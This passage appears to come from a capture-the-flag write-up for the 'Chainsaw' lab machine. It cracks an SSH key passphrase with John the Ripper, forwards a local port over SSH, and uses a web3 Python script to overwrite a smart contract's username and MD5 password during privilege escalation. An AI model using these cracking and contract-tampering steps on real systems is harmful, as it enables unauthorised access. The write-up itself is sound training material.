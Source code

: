 Lets try to crack the password with **JohnTheRipper**:
```markdown
sshng2john bobby-key

john --wordlist=/usr/share/wordlists/rockyou.txt chainsaw-bobby.crack
```

After a while it gets cracked and the password is:
> jackychain

### Privilege Escalation to root

In the home directory of _bobby_ is a folder called _projects/ChainsawClub_ with three files:
- Solidity Smart Contract with many functions: _ChainsawClub.sol_
- JSON file: _ChainsawClub.json_
- ELF binary with **Setuid bit** set: _ChainsawClub_

When executing the binary, it shows some information about credit balance and asks for a username and a password.
There has to be a service to connect to this Smart Contract on the box:
```markdown
ss -lntp
```

It finds a listening port on localhost that looks promising: _127.0.0.1:63991_.
Lets tunnel a local port through this connection via the **SSH command line** to access this port:
```markdown
ssh> -L 1337:127.0.0.1:63991
```

The Python script from before can be used with the according changes to connect to the service:
```python
from web3 import Web3, HTTPProvider
import json

# Load configs
contract_address = '0x3A44d37C6AdfF49e98b1E500726B5C9f9aC5517a'  # contents of address.txt
contract_data = json.loads(open("ChainsawClub.json", "r").read())
abi = contract_data['abi']

# Establish connection
w3 = Web3(HTTPProvider('http://127.0.0.1:1337'))
w3.eth.defaultAccount = w3.eth.accounts[0]

# Setup environment
contract = w3.eth.contract(abi=abi, address=contract_address)
```

It is now possible to set the username for the contract ourselves:
```python
contract.functions.setUsername("test").transact()
```

The password has to be a MD5 hash, so lets generate one with Python and also set it:
```python
import hashlib

pw = hashlib.md5("NewPassword1".encode()).hexdigest()
contract.functions.setPassword(pw).transact()
```
